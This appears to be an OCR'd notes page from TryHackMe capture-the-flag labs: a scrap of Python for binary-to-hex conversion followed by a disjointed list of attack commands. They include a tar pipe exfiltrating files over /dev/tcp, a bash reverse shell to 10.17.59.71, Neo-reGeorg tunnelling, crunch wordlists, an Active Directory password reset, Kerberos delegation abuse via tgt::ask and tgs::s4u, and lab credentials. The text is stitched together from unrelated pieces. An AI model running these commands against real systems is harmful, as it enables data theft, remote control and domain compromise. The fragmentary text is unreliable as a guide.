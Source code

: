 # 打印取模后的二进制字符串
print(f"Result after mod operation in binary: {modded_bin}")

# 转换为16进制
result_hex = bin_to_hex(modded_bin)

# 打印最终结果
print(f"Final result in hex: {result_hex}")


tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/10.17.59.71/8080

tar cf - task5/ | ssh thm@10.17.59.71 "cd ~/work; tar xpf -"

VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo=

H4sIAAAAAAAAA+3RPQ4CIRCGYeo9BSdQQGATO49CXAtjFAMYPb672G38qYgxvk8zDFDM5CshH/xSNKVGvXO1jua1nrU1ziqle2+E0sorJ6RrO9bDJZeQpBQpxvLu36f3H1Vq/tu0G/Ki3NpsOAXsrX2dv/Wz/I0dr6RqMs3Mn+cfhuP+tD6HnK8xDd2mttqsrPPdtPK6xJi6b08JAAAAAAAAAAAAAAAA4Jk7FWUx0QAoAAA=

python3 neoreg.py -k thm -u http://flag.thm.com/flag

curl --socks5 127.0.0.1:1080 http://flag.thm.com/flag

python3 neoreg.py -k admin -u http://10.10.127.25/uploader/files/tunnel.php

crunch 5 5 -t "THM@%" -o tryhackme.txt
crunch 5 5 -t "THM^^" -o tryhackme.txt

Az"[0-9][0-9]" ^[!@]

bash -i >& /dev/tcp/10.17.59.71/4444 0>&1

systemd-resolve --interface exploitad --set-dns 10.200.35.101 --set-domain za.tryhackme.loc

Your credentials have been generated: 
Username: barbara.reid 
Password: Password1

ssh za.tryhackme.loc\\barbara.reid@thmwrk1.za.tryhackme.loc

t2_melanie.davies
$Password = ConvertTo-SecureString "Admin@login123" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_melanie.davies" -Reset -NewPassword $Password

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:barbara.reid /p:Password1

tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

ssh za.tryhackme.loc\\t2_melanie.davies@thmwrk1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones 


Your credentials have been generated: 
Username: sarah.hilton 
Password: Newcastle1988

